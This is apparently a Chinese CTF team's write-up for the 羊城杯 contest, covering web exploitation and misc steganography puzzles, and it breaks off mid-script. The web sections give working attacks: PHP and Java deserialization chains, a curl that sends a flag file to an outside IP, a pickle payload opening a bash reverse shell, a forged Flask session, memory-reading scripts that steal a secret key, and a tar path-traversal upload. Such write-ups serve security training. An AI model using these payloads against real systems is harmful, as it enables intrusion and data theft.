

# 羊城杯

0RAYS 战队

## web

### D0n't pl4y g4m3!!! | solved

> 题目内容：小明不小心沉迷 ⚪⚪ 的东西把源码和猫猫搞丢了，请帮他找回来。请访问/p0p.php
>
> 题目分值：已答出 0 次，初始分值 500.0，当前分值 500.0，解出分值 500.0
> 题目难度：中等
> 靶机管理
> 靶机管理地址：
> [http://23081.endpoint-c67b91047054434d824f4d30270a49f5.m.ins.cloud.dasctf.com/dasctf_admin_portal](http://23081.endpoint-c67b91047054434d824f4d30270a49f5.m.ins.cloud.dasctf.com:81/dasctf_admin_portal)
> IP 信息：
> nc/80->tcp.cloud.dasctf.com:23081

尊嘟假嘟转换器

flag 在/tmp/catcatf1ag.txt

看 404 应该是 php development server [https://www.gem-love.com/2023/02/04/PHP-7-4-21-Development-Server%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/](https://www.gem-love.com/2023/02/04/PHP-7-4-21-Development-Server%E6%BA%90%E7%A0%81%E6%B3%84%E9%9C%B2%E6%BC%8F%E6%B4%9E/)

`/p0p.php` 源码泄露

```bash
<?php
header("HTTP/1.1 302 found");
header("Location:https://passer-by.com/pacman/");

class Pro{
    private $exp;
    private $rce2;

    public function __get($name)
    {
        return $this->$rce2=$this->exp[$rce2];
    }
    public  function __toString()
    {
            call_user_func('system', "cat /flag");
     }
}

class Yang
{
    public function __call($name, $ary)
    {
        if ($this->key === true || $this->finish1->name) {
            if ($this->finish->finish) {
                call_user_func($this->now[$name], $ary[0]);
            }
        }
    }
    public function ycb()
    {
        $this->now = 0;
        return $this->finish->finish;
    }
    public function __wakeup()
    {
        $this->key = True;
    }
}
class Cheng
{
    private $finish;
    public $name;
    public function __get($value)
    {

        return $this->$value = $this->name[$value];
    }
}
class Bei
{
    public function __destruct()
    {
        if ($this->CTF->ycb()) {
            $this->fine->YCB1($this->rce, $this->rce1);
        }
    }
    public function __wakeup()
    {
        $this->key = false;
    }
}

function prohib($a){
    $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
    return preg_replace($filter,'',$a);
}

$a = $_POST["CTF"];
if (isset($a)){
  unserialize(prohib($a));
}
?>
```

exp:

```bash
class Yang
{
    public function __call($name, $ary)
    {
        if ($this->key === true || $this->finish1->name) {
            if ($this->finish->finish) {
                call_user_func($this->now[$name], $ary[0]);
            }
        }
    }
    public function ycb()
    {
        $this->now = 0;
        return $this->finish->finish;
    }
    public function __wakeup()
    {
        $this->key = True;
    }
}
class Cheng
{
    private $finish;
    public $name;
    public function __construct()
    {
        $this->name['finish']="system";
    }

    public function __get($value)
    {

        return $this->$value = $this->name[$value];
    }
}
class Bei
{
    public function __destruct()
    {
        if ($this->CTF->ycb()) {
            $this->fine->YCB1($this->rce, $this->rce1);
        }
    }
    public function __wakeup()
    {
        $this->key = false;
    }
}

function prohib($a){
    $filter = "/system|exec|passthru|shell_exec|popen|proc_open|pcntl_exec|eval|flag/i";
    return preg_replace($filter,'',$a);
}

$test=new Bei();
$test->rce="curl http://124.223.14.29:11037/`cat /tmp/catcatf1ag.txt`";
$test->CTF=new Yang();
$test->CTF->finish=new Cheng();
$test->fine=new Yang();
$test->fine->finish=new Cheng();
$test->fine->now['YCB1']="system";
$test->fine->key=true;

echo urlencode(str_replace("s:6:\"system\";","s:6:\"syssystemtem\";",serialize($test)))
```

双写绕的时候注意序列化字符串的长度是有变化的，手动改一下

### Ez_java | solved

> 靶机管理地址：
> [http://8080.endpoint-d8af90ed3c384b56a00e6fb75ecbf03e.m.ins.cloud.dasctf.com/dasctf_admin_portal](http://8080.endpoint-d8af90ed3c384b56a00e6fb75ecbf03e.m.ins.cloud.dasctf.com:81/dasctf_admin_portal)
> IP 信息：
> http/8080->[http://8080.endpoint-d8af90ed3c384b56a00e6fb75ecbf03e.m.ins.cloud.dasctf.com](http://8080.endpoint-d8af90ed3c384b56a00e6fb75ecbf03e.m.ins.cloud.dasctf.com:81)
> 附件 [https://pan.baidu.com/s/1n7t8FY_GyzYarj1Q0lFPKw?pwd=1bv5](https://pan.baidu.com/s/1n7t8FY_GyzYarj1Q0lFPKw?pwd=1bv5)

jackson 链子前半段，toString 触发调 `HtmlBean` 的 `getHtmlMap` ，然后动态代理调 `get` 方法写模板文件覆盖 index.ftl 来 RCE

调用栈

```php
uploadfile:9, HtmlUploadUtil (com.ycbjava.Utils)
get:39, HtmlMap (com.ycbjava.Utils)
invoke:20, HtmlInvocationHandler (com.ycbjava.Utils)
isEmpty:-1, $Proxy63 (com.sun.proxy)
serializeWithoutTypeInfo:752, MapSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:720, MapSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:35, MapSerializer (com.fasterxml.jackson.databind.ser.std)
serializeAsField:728, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1142, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1518, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1219, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1086, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:62, BaseJsonNode (com.fasterxml.jackson.databind.node)
readObject:86, BadAttributeValueExpException (javax.management)
```

exp

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.fasterxml.jackson.databind.node.BaseJsonNode;
import com.ycbjava.Bean.HtmlBean;
import com.ycbjava.Utils.HtmlInvocationHandler;
import com.ycbjava.Utils.HtmlMap;
import javassist.*;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

public class Poc {

    public static void main(String[] args) throws Exception {

//        ClassPool pool = ClassPool.getDefault();
//        //移除 BaseJsonNode 中的 writeReplace 方法
//        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
//        CtMethod writeReplace = ctClass0.getDeclaredMethod("writeReplace");
//        ctClass0.removeMethod(writeReplace);
//        // 将修改后的CtClass加载至当前线程的上下文类加载器中
//        ctClass0.toClass();

        HtmlMap htmlMap = new HtmlMap();
        String filname = "index.ftl";
        String content = "<#assign ac=springMacroRequestContext.webApplicationContext>\n" +
                "  <#assign fc=ac.getBean('freeMarkerConfiguration')>\n" +
                "    <#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n" +
                "      <#assign VOID=fc.setNewBuiltinClassResolver(dcr)>${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
        setFieldValue(htmlMap, "filename", filname);
        setFieldValue(htmlMap, "content", content);
        HtmlInvocationHandler htmlInvocationHandler = new HtmlInvocationHandler(htmlMap);
        Map map = (Map) Proxy.newProxyInstance(
                HtmlMap.class.getClassLoader(),
                new Class[] {Map.class},
                htmlInvocationHandler);
        HtmlBean htmlBean = new HtmlBean();
        setFieldValue(htmlBean, "HtmlMap", map);

        POJONode jsonNodes = new POJONode(htmlBean);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        objectOutputStream.close();
        String res = Base64.getEncoder().encodeToString(barr.toByteArray());
        System.out.println(res);

    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

有关 freemark 的 payload 可以参考

[https://www.cnblogs.com/escape-w/p/17326592.html](https://www.cnblogs.com/escape-w/p/17326592.html)

Payload

```php
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAXNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAALHQAA1BvY3QACFBvYy5qYXZhdAAEbWFpbnNyACZqYXZhLnV0aWwuQ29sbGVjdGlvbnMkVW5tb2RpZmlhYmxlTGlzdPwPJTG17I4QAgABTAAEbGlzdHEAfgAHeHIALGphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVDb2xsZWN0aW9uGUIAgMte9x4CAAFMAAFjdAAWTGphdmEvdXRpbC9Db2xsZWN0aW9uO3hwc3IAE2phdmEudXRpbC5BcnJheUxpc3R4gdIdmcdhnQMAAUkABHNpemV4cAAAAAB3BAAAAAB4cQB+ABV4c3IALGNvbS5mYXN0ZXJ4bWwuamFja3Nvbi5kYXRhYmluZC5ub2RlLlBPSk9Ob2RlAAAAAAAAAAICAAFMAAZfdmFsdWVxAH4AAXhyAC1jb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5WYWx1ZU5vZGUAAAAAAAAAAQIAAHhyADBjb20uZmFzdGVyeG1sLmphY2tzb24uZGF0YWJpbmQubm9kZS5CYXNlSnNvbk5vZGUAAAAAAAAAAQIAAHhwc3IAGWNvbS55Y2JqYXZhLkJlYW4uSHRtbEJlYW7amGGP39UwwQIAA0wAB0h0bWxNYXB0AA9MamF2YS91dGlsL01hcDtMAAdjb250ZW50cQB+AAVMAAhmaWxlbmFtZXEAfgAFeHBzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAnY29tLnljYmphdmEuVXRpbHMuSHRtbEludm9jYXRpb25IYW5kbGVyQCXpLL1HVZUCAAFMAANvYmpxAH4AG3hwc3IAGWNvbS55Y2JqYXZhLlV0aWxzLkh0bWxNYXAVSPlJWeMkfAIAAkwAB2NvbnRlbnRxAH4ABUwACGZpbGVuYW1lcQB+AAV4cHQBMDwjYXNzaWduIGFjPXNwcmluZ01hY3JvUmVxdWVzdENvbnRleHQud2ViQXBwbGljYXRpb25Db250ZXh0PgogIDwjYXNzaWduIGZjPWFjLmdldEJlYW4oJ2ZyZWVNYXJrZXJDb25maWd1cmF0aW9uJyk+CiAgICA8I2Fzc2lnbiBkY3I9ZmMuZ2V0RGVmYXVsdENvbmZpZ3VyYXRpb24oKS5nZXROZXdCdWlsdGluQ2xhc3NSZXNvbHZlcigpPgogICAgICA8I2Fzc2lnbiBWT0lEPWZjLnNldE5ld0J1aWx0aW5DbGFzc1Jlc29sdmVyKGRjcik+JHsiZnJlZW1hcmtlci50ZW1wbGF0ZS51dGlsaXR5LkV4ZWN1dGUiP25ldygpKCJjYXQgL2ZsYWciKX10AAlpbmRleC5mdGxwcA==
```

### EZ_web

> 题目内容：一道普通的 web
> 【Flag 完整格式一般为：flag{<strong>*}或者 DASCTF{</strong>*}，只需提交括号内的内容即可。若 Flag 为其它格式，则会在题目描述中单独说明。】
> 题目分值：已答出 0 次，初始分值 500.0，当前分值 500.0，解出分值 500.0
> 题目难度：困难
> 靶机管理
> 靶机管理地址：
> [http://80.endpoint-c412e16040504d759b0129c4d614f43b.m.ins.cloud.dasctf.com/dasctf_admin_portal](http://80.endpoint-c412e16040504d759b0129c4d614f43b.m.ins.cloud.dasctf.com:81/dasctf_admin_portal)
> IP 信息：
> http/80->[http://80.endpoint-c412e16040504d759b0129c4d614f43b.m.ins.cloud.dasctf.com](http://80.endpoint-c412e16040504d759b0129c4d614f43b.m.ins.cloud.dasctf.com:81)

Hint: cmd.php

<del>存在 http 请求走私漏洞，没事了，是他靶机本来就这样</del>

环境变量


Apache/2.4.41 (Ubuntu) Server

CVE-2020-1934 ?

### Serpent | solved

> 题目内容： I have been endeavoring to Reduce my phobia of Serpents by learning more about them. Do not scan, note that there is a www.zip file under the website.
>
> 【Flag 完整格式一般为：flag{<strong>*}或者 DASCTF{</strong>*}，只需提交括号内的内容即可。若 Flag 为其它格式，则会在题目描述中单独说明。】
> 题目分值：已答出 0 次，初始分值 500.0，当前分值 500.0，解出分值 500.0
> 题目难度：中等
> 靶机管理
> 靶机管理地址：
> [http://80.endpoint-67d77b3c2fde4d6abe56f04f8958cc3c.m.ins.cloud.dasctf.com/dasct](http://80.endpoint-67d77b3c2fde4d6abe56f04f8958cc3c.m.ins.cloud.dasctf.com:81/dasct)

session 头部解密得到 key

```bash
python .\flask_session_cookie_manager3.py encode -s "GWHTpkwrEETkPT" -t "{'Attribute': {'admin': 1, 'name': 'admin', 'secret_key': 'GWHTpkwrEETkPT'}}"
```

Hello admin, welcome to /ppppppppppick1e

/src0de 源码 pickle 反序列化 bypass 找已有类 GWHT

```bash
@app.route('/src0de')
def src0de():
    f = open(__file__, 'r')
    rsp = f.read()
    f.close()
    return rsp[rsp.index("@app.route('/src0de')"):]

@app.route('/ppppppppppick1e')
def ppppppppppick1e():
    try:
        username = "admin"
        rsp = make_response("Hello, %s " % username)
        rsp.headers['hint'] = "Source in /src0de"
        pick1e = request.cookies.get('pick1e')
        if pick1e is not None:
            pick1e = base64.b64decode(pick1e)
        else:
            return rsp
        if check(pick1e):
            pick1e = pickle.loads(pick1e)
            return "Go for it!!!"
        else:
            return "No Way!!!"
    except Exception as e:
        error_message = str(e)
        return error_message

    return rsp

class GWHT():
    def __init__(self):
        pass

if __name__ == '__main__':
    app.run('0.0.0.0', port=80)
```

模糊测试下大概是 R 指令限制。R 绕过：[https://xz.aliyun.com/t/11807#toc-4](https://xz.aliyun.com/t/11807#toc-4)

[https://goodapple.top/archives/1069](https://goodapple.top/archives/1069)

找已有类 GWHT 利用

```bash
b'''(c__main__
GWHT
o}(S"__setstate__"
cos
system
ubS"bash -c 'bash -i >& /dev/tcp/120.26.39.182/8888 0>&1'"
b.'''
```

<del>似乎不出网？</del>

可以反弹 权限不足 flag 仅 root 可读 python3.8 提权可以吗

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
cat /flag
```

### ArkNights | solved

Fantasy world full of magic and dream................

/proc 读内存 SECRET_KEY => exec

[https://xia0ji233.pro/2023/01/01/Nepnep-CatCTF2022/#%E8%8E%B7%E5%8F%96secret-key](https://xia0ji233.pro/2023/01/01/Nepnep-CatCTF2022/#%E8%8E%B7%E5%8F%96secret-key)

```bash
import requests
import re
from sys import exit

url = ''

map_list = requests.get(url + f"/read?file=/proc/self/maps")

map_list = map_list.text.split("\n")

# print(map_list[4])
# i = map_list[4]
# map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
# print(map_addr.group(1))
# print(map_addr.group(2))
# print(int(map_addr.group(1),16))
# print(int(map_addr.group(2),16))
# print(f"{url}/read?file=/proc/self/mem&start={int(map_addr.group(1),16)+1}&end={int(map_addr.group(2),16)-1}")

for i in map_list:
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        print(map_addr)
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)
        try:
            res = requests.get(f"{url}/read?file=/proc/self/mem&start={start}&end={end-start}")
        except:
            ...
        if "Boogipopisweak" in res.text:
            print(f"{url}/read?file=/proc/self/mem&start={start}&end={end-start}")
            secret_key = re.findall(r".{50}Boogipopisweak$", res.text)
            if secret_key:
                print("Secret Key:", secret_key[0])
                break
```

```python
import requests
import re

url = ""
# 由/proc/self/maps获取可读写的内存地址，再根据这些地址读取/proc/self/mem来获取secret key
s_key = ""
bypass = ""
# 请求file路由进行读取
map_list = requests.get(url + f"read?file={bypass}/proc/self/maps")
map_list = map_list.text.split("\n")

for i in map_list:
    # 匹配指定格式的地址
    map_addr = re.match(r"([a-z0-9]+)-([a-z0-9]+) rw", i)
    if map_addr:
        start = int(map_addr.group(1), 16)
        end = int(map_addr.group(2), 16)
        print("Found rw addr:", start, "-", end)

        # 设置起始和结束位置并读取/proc/self/mem
        res = requests.get(f"{url}/read?file={bypass}/proc/self/mem&start={start}&end={end-start}")
        # 如果发现*abcdefgh存在其中，说明成功泄露secretkey
        if "Boogipopisweak" in res.text:
            # 正则匹配，本题secret key格式为32个小写字母或数字，再加上*abcdefgh
            secret_key = re.findall("[0-9a-fA-F]{8}\*[0-9a-fA-F]{4}\*[0-9a-fA-F]{4}\*[0-9a-fA-F]{4}\*[0-9a-fA-F]{12}Boogipopisweak", res.text)
            if secret_key:
                print("Secret Key:", secret_key[0])
                s_key = secret_key[0]
                break
```

环境记得续着

3c16d0f2*0344*4650*8f4d*1bfcf6f1814cBoogipopisweak

6

非预期直接读就有 flag

```php
/read?file=/proc/1/environ
```

### ezyaml | solved

简单得 yaml

非预期了

直接 tarfile 上传覆盖 `templates/result.html`

```python
import tarfile
import requests

url = ""
proxy = {"http": "http://127.0.0.1:8080", "https": "https://127.0.0.1:8080"}

def changeName(tarinfo):
    # 修改tar包内文件名
    tarinfo.name = f"../../templates/result.html"
    return tarinfo
# 生成tar包
def generateTarFile(filename):
    with tarfile.open("poc.tar", "w") as tar:
        tar.add(filename, filter=changeName)

def upload():
    file = {"file": open("poc.tar", "rb")}
    res = requests.post(url + "/upload", files=file, proxies=proxy)
    print(res.text)

if __name__ == "__main__":
    requests.get(url)
    generateTarFile("poc.html")
    upload()
```

## misc

### ez_misc | solved

尾部 zip 改 0304: feld.txt: vzbtrvplnnvphsqkxsiqibroou

格隆斯菲尔德密码

[https://www.boxentriq.com/code-breaking/gronsfeld-cipher](https://www.boxentriq.com/code-breaking/gronsfeld-cipher)

```java
try to think the s nipping tools
key: 28303
好吧，就是那个CVE-2023-28303
```

zip 前是个 png


### ai 和 nia 的交响曲 |solved

【Flag 完整格式一般为：flag{<strong>*}或者 DASCTF{</strong>*}，只需提交括号内的内容即可。若 Flag 为其它格式，则会在题目描述中单独说明。】

流量里可以提取出 flag1.png 和 flag2.zip

png 明显看出按列没 8 个字符就有一行纯黑，所以猜测可以按列提取数据


得到 flag1 和 hint

flag2.zip 是伪加密。里面有一些数字，还有明显 0 宽字符，0 宽字符提示要先获得 hint，hint 是个 bv 号，对应曹操盖饭讲摩斯的视频，就能联想到 txt 里对应的是视频的时间，看每一个时间在视频里是什么字母

输入 url 时可以利用 t 来快速定位时间

[https://www.bilibili.com/video/BV1wW4y1R7Jv/?share_source=copy_web&vd_source=5501734f273c38335e6d8560ad559b5f&t=13](https://www.bilibili.com/video/BV1wW4y1R7Jv/?share_source=copy_web&vd_source=5501734f273c38335e6d8560ad559b5f&t=13)

但是对应时间找出来的字母会有一些出入，再根据曹操盖饭的典故联想得到 flag2 是 CAOCAOGAIFAN

### Matryoshka|solved

题目内容：Matryoshka 可好玩

镜像里能拿到一个 rar，和一个 jpg，然后 rar 的大小发现不对，在 rar 的文件尾后还发现一个 jpg，两个 jpg 一样，尝试盲水印


然后还能拿到一个 encrypt 文件，veracrypt 挂载，密码为 watermark_is_fun

0 宽


### 两只老虎

题目内容：两只老虎跑得快,一只没有尾巴，一只没有脑袋，真奇怪

### 程序猿 Quby | solved

题目内容：  程序猿 Quby 最近疯狂沉迷于小说《死亡之链》，他熬夜爆肝，结果第二天上班起得晚了，碰上了令人闻风丧胆的“死亡三号线”早高峰！果不其然，Quby 心爱的手表在人潮中被挤掉在地，分针和秒针都不幸损坏了。于是，命运的齿轮开始转动……

时刻表参考《死亡之链》 夏多密码，解密为

```java
HAVEANICEDAY
```

png 有个 LSB 加密，密码是这个，得到 rar 的解压密码

```java
we1c0met0ycbCTF!!!
```

检查表格发现大量隐藏内容，分别上色后发现存在字符，两张拼起来得到


```java
w0wyoudo4goodj0b
```

Deepsound


### Easy_VMDK|solved

题目内容：["小明这次使用了 32Bytes 的随机密码，这次总不会被爆破出来了吧！！。小明压缩了好了题目后，他发现压缩后大小比压缩前还大啊，这不就没有压缩啊，这是为什么啊！","小明这次使用了 32Bytes 的随机密码，这次总不会被爆破出来了吧！！"]

题目分值：已答出 0 次，初始分值 500.0，当前分值 500.0，解出分值 500.0

题目难度：中等

不能爆破密码，是 store，一眼明文攻击

取 vmdk 开头固定的 12 字节爆破


flag.zip 后还有 zip，是 png2txt 的加密脚本，就是把像素加密成了 uu，再 base64，解密

```python
from PIL import Image
import base64
import binascii

f = open("key.txt","rb").readlines()

i=0
pic = Image.new("RGB",(2494,137))
for y in range(0,137):
    for x in range(0,2494):
        a = base64.b64decode(f[i])
        b = binascii.b2a_uu(a)
        c = b.decode().split(",")
        pic.putpixel([x,y],(int(c[0]),int(c[1]),int(c[2])))
        i = i+1
pic.save("flag.png")
```


解压得到 flag

### GIFuck|solved

Get your GIFlag from this GIFuck image.

【Flag 完整格式一般为：flag{<strong>*}或者 DASCTF{</strong>*}，只需提交括号内的内容即可。若 Flag 为其它格式，则会在题目描述中单独说明。】

题目分值：已答出 0 次，初始分值 500.0，当前分值 500.0，解出分值 500.0

题目难度：困难

查看 gif，图片上的内容明显是个 brainfuck，用 ffmpeg 将其分离出来，然后利用脚本将字符先进行提取

```python
import os
import hashlib

dir_list = os.listdir('1')
result = []
for i in dir_list:
    m = hashlib.md5()
    fp = open('1\\' + i, 'rb')
    data = fp.read()
    m.update(data)
    result.append(m.hexdigest())

flag = ''
sub = 0
for i in result:
    if i == 'a6680292f0fc8a9796121447574de6ec':
        flag += '+'
    elif i == '04b5ae733105563b238777baff564e17':
        flag += '['
    elif i == 'f041b11363a41c0c7e1b755e45d908a3':
        flag += '-'
    elif i == '7514082f25355bc663e015e6d51763af':
        flag += '>'
    elif i == '06df41b1b5eea0485269b7178093d1ff':
        flag += '<'
    elif i == 'd4884cc21151c6e90acc351bf371935b':
        flag += ']'
    elif i == 'a53ffccc32e0aab29201cc8984fa9c7b':
        flag += '.'
    else:
        print(i)
        print(sub)
        break
    sub += 1
print(flag)
```

```python
++++[->++++<]>[->++++++<]>-[->+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+>+<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<]+++<++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]++<+++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]<+++[->++++<]>[->-<]>[-<<<+>>>]<+++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]+++<++[->++++<]>[->-<]>[-<<<+>>>]+<++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]<+++<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->-<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->+<]>[-<<<+>>>][->+<]>[-<<<+>>>]+++<+++[->++++<]>[->-<]>[-<<<+>>>]++<++[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->+<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>]++[->+<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<+++[->++++<]>[->+<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>][->+<]>[-<<<+>>>]++<+++<+[->++++<]>[->++++<]>[->-<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]+<+++[->++++<]>[->+<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>][->+<]>[-<<<+>>>]+++<+++[->++++<]>[->-<]>[-<<<+>>>]++<+[->++++<]>[->+<]>[-<<<+>>>]+++<+++[->++++<]>[->+<]>[-<<<+>>>]++<+++<+[->++++<]>[->++++<]>[->+<]>[-<<<+>>>]<<+++++++++[->+++++++++<]>++.<+++++[->+++++<]>+++.+++..+++++++.<+++++++++[->---------<]>--------.<++++++++[->++++++++<]>++.<++++[->++++<]>+++.-.<+++++++++[->---------<]>---.<+++++++++[->+++++++++<]>++++++++.<+++[->---<]>-.++++++.---.<+++++++++[->---------<]>-.<++++++++[->++++++++<]>++++++.++++++.<+++[->---<]>--.++++++.<++++++++[->--------<]>-------.<++++++++[->++++++++<]>+++++++++.<+++[->+++<]>+.<+++++++++[->---------<]>--.<++++++++[->++++++++<]>++++++++++++++.+.+++++.<+++++++++[->---------<]>---.<++++++++[->++++++++<]>++++++++.---.<+++[->+++<]>++++.<+++[->---<]>----.<+++++++[->-------<]>------.[-]<
```

直接解密 brainfuck 得不到有效信息


但是看到这串 brainfuck 输出用的“.”都在末尾，猜测要么是栈里生成了 flag 值，没有输出，在后面的栈里输出了这个内容，或者是先生成了 flag，没有输出，然后把 flag 的内容改掉了，改成了这个内容。但是看到编码的后半部分有大量的“-”，所以猜测是第二种，应该把 flag 值改掉了

所以尝试利用脚本，当每一次出现“>”符号时输出一下栈的结果，发现输出的值里有 flag


然后再修饰一下脚本

```python
CONST_INF = int(1e7+7)

class Table:
    def __init__(self):
        self.register = [0, 0]
        self.ptr = 0

    def table_expand(self):
        if self.ptr == 0:
            self.ptr += len(self.register)
            self.register = [0] * len(self.register) + self.register
        elif self.ptr == len(self.register) - 1:
            self.register = self.register + [0] * len(self.register)
        else:
            pass

    def valid_check(self):
        assert self.ptr >= 0 and self.ptr < len(self.register)

    def ptr_l(self):
        self.table_expand()
        self.ptr -= 1
        self.valid_check()
    
    def ptr_r(self):
        self.table_expand()
        self.ptr += 1
        self.valid_check()

    def add1(self):
        self.valid_check()
        self.register[self.ptr] += 1

    def sub1(self):
        self.valid_check()
        self.register[self.ptr] -= 1

    def set(self, value):
        self.valid_check()
        self.register[self.ptr] = value

    def get(self):
        self.valid_check()
        return self.register[self.ptr]

class Env:
    def __init__(self):
        self.table = Table()

    def process(self, code, inp):
        num_ins, ptr_ins = 0, 0
        ptr_inp = 0
        outp = ""
        text = ""
        while ptr_ins < len(code):
            if code[ptr_ins] == '>':
                #print(chr(self.table.get()),end="")
                text += chr(self.table.get())
                self.table.ptr_l()
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == '<':
                self.table.ptr_r()
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == '+':
                self.table.add1()
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == '-':
                self.table.sub1()
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == '.':
                outp += chr(self.table.get())
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == ',':
                if ptr_inp < len(inp):
                    self.table.set(ord(inp[ptr_inp]))
                    ptr_inp += 1
                else:
                    raise ValueError('Input exhausted')
                num_ins, ptr_ins = num_ins + 1, ptr_ins + 1
            elif code[ptr_ins] == '[':
                if self.table.get() == 0:
